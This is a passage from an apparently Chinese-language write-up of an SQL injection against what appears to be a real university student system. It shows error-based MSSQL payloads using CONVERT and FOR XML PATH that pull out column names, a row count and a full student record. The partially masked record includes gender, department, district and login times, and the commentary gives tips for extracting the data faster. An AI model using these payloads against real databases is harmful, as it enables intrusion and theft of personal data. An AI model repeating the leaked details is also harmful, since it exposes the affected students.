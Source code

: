 ```xml
<column_name>LangRead2</column_name>
<column_name>LangWrite2</column_name>
<column_name>DriveType</column_name>
<column_name>DriveOther</column_name>
<column_name>TypeChinese</column_name>
<column_name>TypeEnglish</column_name>
<column_name>PC1</column_name>
<column_name>PC2</column_name>
<column_name>PC3</column_name>
<column_name>PC4</column_name>
<column_name>PC5</column_name>
<column_name>PCOther</column_name>
<column_name>Other</column_name>
<column_name>CreateTime</column_name>
<column_name>ModifyTime</column_name>
<column_name>LoginTime</column_name>
<column_name>LoginCount</column_name>
<column_name>Autobiography</column_name>
<column_name>AttachedNote</column_name>
<column_name>AttachedFile</column_name>
```

資料會被截斷，測起來是 400 多字元，就抓一次 440 個，取到 2598 的時候剛好結束

8. `' AND 1 = CONVERT(int,(SELECT SUBSTRING((SELECT column_name as cn FROM information_schema.columns WHERE table_name = 'Student' FOR XML PATH('')),1,440)))--`

```xml
<cn>Code</cn>
```

發現用 `SELECT column_name as cn` 就可以大幅減少重複的 TAG Name，增加提取的效率

9. `' AND 1 = CONVERT(int,(SELECT COUNT(*) + 'hello' FROM Student FOR XML PATH('')))--`

```xml
<hello>2155</hello>
```

10. `' AND 1 = CONVERT(int,(SELECT SUBSTRING((SELECT * FROM Student FOR XML PATH('')),1,440)))--`

```xml
<Id>7</Id>
<Code>40*******</Code>
<Name>孫**</Name>
<YS>1***</YS>
<College>**語文學院</College>
<Department>**語文學系（日）</Department>
<Class>**四</Class>
<ClassCode>T***** </ClassCode>
<Role>學生</Role>
<IsAlumnus>0</IsAlumnus>
<IsGraduate>0</IsGraduate>
<IsNight>0</IsNight>
<Gender>女</Gender>
<Birthday>1998-**-**T00:00:00</Birthday>
<PID>A2********</PID>
<Phone>02-26******</Phone>
<Address>221 新北市汐止區*****巷*弄*號*樓</Address>
<Mail>40*******@***.tku.edu.tw</Mail>
<SchoolType>大專院校</SchoolType>
<SchoolStatus>在學</SchoolStatus>
<SchoolName>淡江大學</SchoolName>
<SchoolDepartment>**語文學系（日）</SchoolDepartment>
<CreateTime>2020-04-01T18:00:37</CreateTime>
<ModifyTime>2020-05-07T16:40:16</ModifyTime>
<LoginTime>2020-05-07T16:40:16</LoginTime>
<LoginCount>2</LoginCount>
```